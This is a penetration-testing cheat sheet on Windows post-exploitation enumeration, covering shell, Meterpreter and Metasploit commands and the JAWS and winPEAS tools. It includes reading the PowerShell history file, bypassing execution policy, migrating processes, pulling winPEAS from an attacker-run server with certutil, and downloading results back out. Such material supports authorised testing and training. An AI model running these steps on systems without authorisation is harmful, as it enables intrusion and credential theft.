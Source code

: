 # Windows - Local Enumeration

### System Information

```bash
# Shell
hostname
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Meterpreter
getuid
sysinfo
cd C:\Windows\System32\ && cat eula.txt # The file may not be exist
```

### Users & Groups

```bash
# Shell
whoami
whoami /all
whoami /priv
query user
net users
net user SYS_USER # (ex Administrator, guest, antonio)
net localgroup
net localgroup GROUP_NAME # view users in the group
net localgroup administrators # view user in administrators's group

# Meterpreter 
getuid
getprivs

# msfconsole
use post/windows/gather/enum_logged_on_users
set sessions N
run
```

### Network information

```bash
# Shell
ipconfig
ipconfig /all
route print
arp -a
netstat -ano

netsh firewall show state
netsh advfirewall firewall help
netsh advfirewall show allprofiles
```

### Processes & Services

```bash
# Processes
## Meterpreter session
ps
pgrep SERVICE_NAME # pgrep explorer.exe
migrate PID

# Services
net start
wmic service list brief
tasklist /SVC
schtasks /query /fo LIST /v
```

### Console History

```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```



## Automating Windows Local Enumeration

### JAWS

{% embed url="https://github.com/411Hall/JAWS" %}

1. Copy .ps1 script on attcker machine
2. upload on meterpreter session (in C:\Temp)
3. run this command on windows shell

```bash
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```

```bash
# download file on attack machine
download JAWS-Enum.txt
```

### winPEAS

Download the last version on attacker machine

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

{% code overflow="wrap" %}
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250113-4426d62e/winPEASx64.exe
```
{% endcode %}

Transfer file to target machine

```bash
# attacker machine 
python3 -m http.server 80

# target machine
certutil -urlcache -f http://IP:80/winPEASx64.exe winPEASx64.exe
```

Execute WinPEAS on target machine

```powershell
.\winPEASx64.exe > peas.txt
```





***

### Metasploit

<pre class="language-bash"><code class="lang-bash"><strong># Metasploit
</strong>service postgresql start &#x26;&#x26; msfconsole

## Modules
use post/windows/gather/win_privs
use post/windows/gather/enum_logged_on_users
use post/windows/gather/checkvm
use post/windows/gather/enum_applications
use post/windows/gather/enum_computers
use post/windows/gather/enum_patches
use post/windows/gather/enum_shares

set session N
run
</code></pre>
